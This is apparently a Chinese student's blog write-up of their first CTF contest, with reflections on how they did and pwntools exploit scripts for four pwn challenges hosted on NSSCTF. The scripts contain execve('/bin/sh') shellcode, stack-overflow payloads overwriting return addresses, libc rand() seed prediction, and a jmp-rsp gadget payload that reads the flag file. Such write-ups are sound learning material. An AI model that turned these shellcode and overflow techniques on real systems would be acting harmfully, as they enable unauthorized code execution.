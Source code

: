 ```yaml
---
title: "第一场CTF比赛"
description: "第一场CTF比赛"
pubDate: "Apr 15 2023"
published: true
heroImage: "../../assets/01.jpg"
tags: ["技术"]
---
```

## 第一次参加CTF新生赛总结与反思
因为昨天学校那边要进行天梯模拟赛，所以被拉过去了。<br />16点30分结束，就跑回来宿舍开始写。<br />第一题和第二题一下子getshell，不用30分钟，可能我没想那么多，对比网上的WP，自己和他们有点不太一样，比较暴力。<br />大概17点10的时候，写第三题，可能自己第一次遇到随机数问题，我当时的想法是网上有没有随机数种子的工具，查了一下，还真有这个库。说明了pwntools库是个宝藏，自己平时应该抽空研究一下那个库，利用好他，成为一把好工具。<br />后面第三题，刚结束的时候，写出来了。其实思路没有错，就是自己的脚本写的时候，想让代码看起来可读性更高（可能以前写开发项目写习惯了，强迫症），然后多取了一次随机数，导致和远程那边不同步。后面不知道怎么的，把那个变量删了，就好了，当时傻逼了。<br />第四题知道是orw题目，目标是读flag，但是不会写shellcode。只能说，有思路，写不出，所以后面也应该提升自己的shellcode能力。不能只会写那种比较固定的shellcode。<br />虽然不知道其他人情况如何，但是自己第一次参加，接触pwn还没有一个月，学习反馈还是挺满意。<br />一路也遇到了很多师傅，结交很多朋友！继续努力！
## 比赛题目总结（核心，一定要学会shellcode！）
> PS：以下题目的保护权限都开得很少！！！
> 所以就不贴图checksec图片了！！！
> 要获得flag，本次比赛关键在于：会自己写简短的shellcode，会使用随机数库。

### Shellcode（编写短shell）
> 题目思路很简单，就是shellcode，不过长度有限制。
> 我是自己手改pwntools。

使用pwntools生成的，本质就是执行/* execve(path='/bin///sh', argv=['sh'], envp=0) */
```python
/* execve(path='/bin///sh', argv=['sh'], envp=0) */
    /* push b'/bin///sh\x00' */
    push 0x68
    mov rax, 0x732f2f2f6e69622f
    push rax
    mov rdi, rsp
    /* push argument array ['sh\x00'] */
    /* push b'sh\x00' */
    push 0x1010101 ^ 0x6873
    xor dword ptr [rsp], 0x1010101
    xor esi, esi /* 0 */
    push rsi /* null terminate */
    push 8
    pop rsi
    add rsi, rsp
    push rsi /* 'sh\x00' */
    mov rsi, rsp
    xor edx, edx /* 0 */
    /* call execve() */
    push SYS_execve /* 0x3b */
    pop rax
    syscall
```
那么开始手搓，搞定！
> 注意，32位是int0x80，64位是syscall

```python

shellcode='''
mov rbx, 0x68732f6e69622f  
push rbx
push rsp 
pop rdi
xor esi, esi               
xor edx, edx            
push 0x3b
pop rax
syscall
'''
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1681727777007-a60311bc-38b1-4da3-94dc-fddf9e9e4f8d.png#averageHue=%23060403&clientId=uddbdf830-9bbd-4&from=paste&height=319&id=udd613c04&originHeight=479&originWidth=1274&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=53472&status=done&style=none&taskId=u039c4f2f-78df-4a74-ad8d-78661bc973a&title=&width=849.3333333333334)
```python
from pwn import *
context(log_level = 'debug',arch ='amd64',os = 'linux')
#io = process('./pwn2')
io = remote('node6.anna.nssctf.cn',28961)
io.recvuntil(b'Please.')

shellcode='''
mov rbx, 0x68732f6e69622f  
push rbx
push rsp 
pop rdi
xor esi, esi               
xor edx, edx            
push 0x3b
pop rax
syscall
'''

io.sendline(asm(shellcode))

io.recvuntil(b"start!")

payload =  b'a' * (0xa + 8 ) + p64(0x6010A0)

io.sendline(payload)

io.interactive()
```
### EASY PWN（直接暴力）
> 不用想那么多，直接随便输入垃圾数据即可
> 因为只要V5大于0就ok了，甚至偏移都不用想，直接乱输入
> ![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1681727698637-05acd4de-d886-421d-820b-aca7f36dea93.png#averageHue=%23040301&clientId=uddbdf830-9bbd-4&from=paste&height=700&id=u55b26be6&originHeight=1050&originWidth=1005&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=88239&status=done&style=none&taskId=u6e73728f-42a0-4f46-80b2-edd5976d13f&title=&width=670)

```python
from pwn import *
context(log_level = 'debug',arch ='amd64',os = 'linux')
#io = process('./easypwn')
io = remote('node6.anna.nssctf.cn',28962)
payload = b'\x00'
payload = payload.ljust(0x30,b'a')
io.sendline(payload)
#io.sendlineafter(b'Password:',payload)

io.interactive()
```
### 真男人下120层（随机数库）
> 第一次认识，随机数这个库，然后没有什么难的
> 暴力循环120次即可
> 感觉一点都不pwn
> 注意脚本编写时候，别自作多情多取一次
> ![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1681727860579-93511b92-b3f9-454c-916a-3fcde4b6a841.png#averageHue=%23040201&clientId=uddbdf830-9bbd-4&from=paste&height=358&id=u8f80025a&originHeight=537&originWidth=1581&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=47424&status=done&style=none&taskId=uc5005af7-56fc-4133-bc4b-2ed1798a063&title=&width=1054)

```python
from  pwn import *
from  ctypes import *
#context(log_level = 'debug',arch ='amd64',os = 'linux')
#io = process('./bin')
io=remote('node6.anna.nssctf.cn',28130)
libc = cdll.LoadLibrary('/lib/x86_64-linux-gnu/libc.so.6')

srand = libc.srand(libc.time(0))
srand = libc.srand(srand % 3 - 1522127470)
io.recvuntil('Floor')

for i in range(121):
     io.sendline(str(libc.rand( ) % 4 + 1).encode( ))

io.interactive()

```
### Random（绕沙箱加短脚本）
> 程序禁了 execv，没开 NX，有 ‘jmp rsp’ 这么一个 gadget，所以往栈上写的 shellcode 是可执行且能利用到的。
> 很明显，是要读flag
> 先用pwn生成一个cat
> 用ljust左对齐抬高到0x28
> 返回地址为jmp rsp
> 填充 asm('sub rsp,0x30;call rsp')
> 那么返回的时候，执行jmp rsp，即asm('sub rsp,0x30;call rsp')，然后cat flag
> 太妙了！！！第一次见到这样的！

```python
    jmp=0x40094E
    shellcode=asm(shellcraft.cat('flag'))
    shellcode=shellcode.ljust(0x28,b'\x00')
    payload=shellcode+p64(jmp)+asm('sub rsp,0x30;call rsp')
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1681727956589-d7bb4c33-467c-40a0-b3dc-8d8ee7bec955.png#averageHue=%23030202&clientId=uddbdf830-9bbd-4&from=paste&height=665&id=u244b8bdf&originHeight=998&originWidth=1331&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=82620&status=done&style=none&taskId=u2b5945ba-fda3-4f65-a5a9-5e6b8d3abc2&title=&width=887.3333333333334)<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1681727966018-1eda846a-bdde-4eb1-b528-c36331666492.png#averageHue=%23070604&clientId=uddbdf830-9bbd-4&from=paste&height=142&id=u9f26ea37&originHeight=213&originWidth=838&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=17430&status=done&style=none&taskId=uabe194ae-9f33-4f93-b9bc-bb83889f606&title=&width=558.6666666666666)
```python
from pwn import *
from ctypes import *
context(os='linux',arch='amd64',log_level='debug')
io=remote('node5.anna.nssctf.cn',28933)
#io=process('./RANDOM')

libc = cdll.LoadLibrary('/lib/x86_64-linux-gnu/libc.so.6')
srand =  libc.srand(libc.time(0))

for i in range(100):
    io.sendlineafter('please input a guess num:',str(libc.rand( )%50).encode( ))
    io.recvline()
    jmp=0x40094E
    shellcode=asm(shellcraft.cat('flag'))
    shellcode=shellcode.ljust(0x28,b'\x00')
    payload=shellcode+p64(jmp)+asm('sub rsp,0x30;call rsp')
    io.send(payload)
    io.interactive()
```
